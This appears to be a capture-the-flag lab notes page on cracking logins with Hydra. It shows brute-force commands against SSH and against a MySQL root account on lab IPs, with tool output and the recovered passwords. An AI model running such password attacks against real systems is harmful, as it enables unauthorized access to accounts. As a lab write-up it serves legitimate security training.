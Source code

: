 ```yaml
---
layout: default
title: Hydra
parent: Cracking
nav_order: 5
---
```


# Hydra

---

## SSH

Run Hydra against the user accounts discovered by Enum4Linux and the passwords discovered in the /secrets directory

```bash
hydra -L users -P passwords ssh://192.168.166.90
```

Get the credential _seppuku:eeyoree_

![hydra](../../../../assets/images/ctfs/proving_grounds/seppuku/hydra.png)

## MySQL

Run Hydra against the mysql service with the _root_ username.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY]
└─$ hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.243.88 mysql
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-11-05 16:11:17
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking mysql://192.168.243.88:3306/
[3306][mysql] host: 192.168.243.88   login: root   password: robert
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-11-05 16:11:26

```

